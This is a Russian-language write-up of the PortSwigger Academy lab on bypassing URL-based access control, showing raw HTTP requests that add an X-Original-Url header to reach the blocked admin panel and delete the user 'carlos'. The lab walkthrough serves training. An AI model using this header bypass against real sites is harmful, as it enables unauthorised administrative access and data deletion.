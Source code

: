```yaml
---
title: "URL-based access control can be circumvented"
date: 2025-07-25
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/access-control/lab-url-based-access-control-can-be-circumvented"
classes: wide
---
```


Для прохождения нужно зайти в панель администратора и удалить пользователя `carlos`.

```
https://0a2600a604ab062180e8852a0058005c.web-security-academy.net/
```

## Solution

О как. Есть ссылка на панель админа, но у меня нет к ней доступа.

```
https://0a2600a604ab062180e8852a0058005c.web-security-academy.net/admin
```

Видим, что блокируют запросы по этому `URL`:

```http
GET / HTTP/2
Host: 0a2600a604ab062180e8852a0058005c.web-security-academy.net
Cookie: session=eknFKHZZHexxMzkwExN9i09JYw0RhXoo
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a2600a604ab062180e8852a0058005c.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Попробую добавить заголовок `X-Original-URL` или `X-Rewrite-URL`. Они используются для изменения оригинального `URL` в запросе некоторыми фреймворками.

```http
GET / HTTP/2
Host: 0a2600a604ab062180e8852a0058005c.web-security-academy.net
Cookie: session=eknFKHZZHexxMzkwExN9i09JYw0RhXoo
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a2600a604ab062180e8852a0058005c.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
X-Original-Url: /admin
```

Ответ получен:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_URL-based_access_control_can_be_circumvented/1.png){: height="200" .align-center}

Найду энпоинт для удаления пользователя:

```
/admin/delete?username=carlos
```

Соберу запрос:

```http
GET /?username=carlos HTTP/2
Host: 0a2600a604ab062180e8852a0058005c.web-security-academy.net
Cookie: session=eknFKHZZHexxMzkwExN9i09JYw0RhXoo
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a2600a604ab062180e8852a0058005c.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
X-Original-Url: /admin/delete
```

Успех)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_URL-based_access_control_can_be_circumvented/2.png){: height="200" .align-center}

